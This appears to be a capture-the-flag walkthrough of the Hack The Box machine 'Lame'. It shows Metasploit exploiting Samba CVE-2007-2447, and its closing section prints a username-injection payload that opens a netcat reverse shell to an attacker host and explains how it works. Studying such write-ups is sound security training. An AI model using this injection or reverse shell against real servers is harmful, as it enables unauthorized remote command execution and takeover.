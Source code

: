 # Lame

In this blog, we explore the process of identifying and exploiting vulnerabilities in Samba using the CVE-2007-2447 exploit. By leveraging Metasploit, we demonstrate how to gain unauthorized access to a server through the manipulation of shell metacharacters. This post provides a detailed, step-by-step guide on executing the exploit and securing the compromised server.

Perform an nmap scan using the -sV switch. We see we get a response with multiple services up and running on the target server.

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

If we do some basic research, we identify some vulnerabilities relating to the Samba version running on the server.

Samba is a suite of programs that implements the Server Message Block (SMB) protocol, which includes NetBIOS over TCP/IP (NBT). SMB is a network file sharing protocol that allows computers and servers to communicate with other systems using network ports. NetBIOS is an older transport layer that allows Windows computers to communicate with each other on the same network.

For the machine, we are going to utilize CVE-2007-2447, which as defined by CVE, "allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function when the 'username map script' smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management."

Luckily, we see Metasploit already has a script to exploit this vulnerability.

Type the following commands to properly execute the Metasploit payload:

`search cve-2007-2447`

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption><p>Find Metasploit script</p></figcaption></figure>

`use exploit/multi/samba/usermap_script`

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption><p>Use script</p></figcaption></figure>

`set rhost "Enter applicable ip address"`

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption><p>Set your host IP properly</p></figcaption></figure>

`run`

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption><p>Run script</p></figcaption></figure>

We now have successfully established a connection with the remote Samba server.

You will find the user flag in the /home/makis directory. Type `Shell` to spawn a new shell in your CMD and locate the root flag by typing `cd /root`.

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Here is the Metasploit script that actually performs the exploit.

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Example Execution Flow:

* **Username Injection:**
  * When Samba processes the username field /=nohup mkfifo /tmp/hago; nc lhost lport 0\</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago\`\`:
* **Command Execution:**
  * The shell interprets the backticks and executes the command inside them.
  * `mkfifo /tmp/hago` is executed, creating a named pipe.
  * `nc lhost lport 0</tmp/hago | /bin/sh >/tmp/hago 2>&1` is executed, establishing a reverse shell connection to the attacker's machine.
  * `rm /tmp/hago` is executed, cleaning up the named pipe.
  * The backticks `` ` ` `` around `nohup " + payload + "` ensure that this string is treated as a command and executed by the shell.
  * `nohup` ensures that the command runs to completion without being interrupted by hangup signals.
  * By carefully crafting the payload and using shell metacharacters, the attacker can execute arbitrary commands on the vulnerable server, leading to a reverse shell and potentially complete control over the target system.
